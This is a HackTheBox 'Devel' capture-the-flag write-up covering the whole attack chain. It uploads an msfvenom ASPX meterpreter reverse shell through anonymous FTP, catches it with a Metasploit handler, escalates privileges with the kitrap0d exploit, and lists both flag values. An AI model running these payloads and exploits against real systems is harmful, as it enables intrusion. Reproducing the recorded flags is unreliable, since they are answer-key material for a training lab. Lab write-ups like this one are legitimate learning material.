




# HackTheBox **Devel** Writeup

---

## Reconnaissance

Started with a simple nmap scan on the IP to gather information:

```bash
nmap -sC -sV -oN outputNMAP.txt $IP 
```



Examined the website hosted on port 80 using Burp Suite and found out ASP.NET is used. Also found that anonymous login is enabled on the FTP port. Uploaded a test file to the FTP share and confirmed access through the web page.

```bash
ftp $targetIP
anonymous

put tst.txt
ls
```


## Initial Access

Knowing that ASP.NET is used, created a msfvenom payload for a reverse shell:

```bash
msfvenom --platform windows -a x86 -p windows/meterpreter/reverse_tcp LHOST=$myIP LPORT=6666 -f aspx > rev.aspx
```

Uploaded the reverse shell to the FTP share, opened msfconsole, and set up a multi handler:

```bash 
sudo msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $myIP
set LPORT 6666
run
```

Executed the script via the web page to establish a reverse shell.



Checked the user and found out we are running as IIS APPPOOL\WEB, unable to access the user flag.

## Privilege Escalation

Got the version of the operating system:

```bash
sysinfo
```



Backgrounded the session with `Ctrl+Z` and used `multi/recon/local_exploit_suggester` to find privilege escalation vectors.

```bash
use post/multi/recon/local_exploit_suggester 
```

Found `exploit/windows/local/ms10_015_kitrap0d` interesting and executed it:

```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
set LHOST $myIP
run
```

Confirmed escalated privileges:

```bash
sessions 2
getuid
```

## Flags

### User Flag

Path: `C:\Users\babis\Desktop\user.txt`

Flag: `1544bd120c356117182d3cd105bef7ea`

### Root Flag

Path: `C:\Users\Administrator\Desktop\user.txt`

Flag: `194de522e894dbc98b3d861632d8bd28`
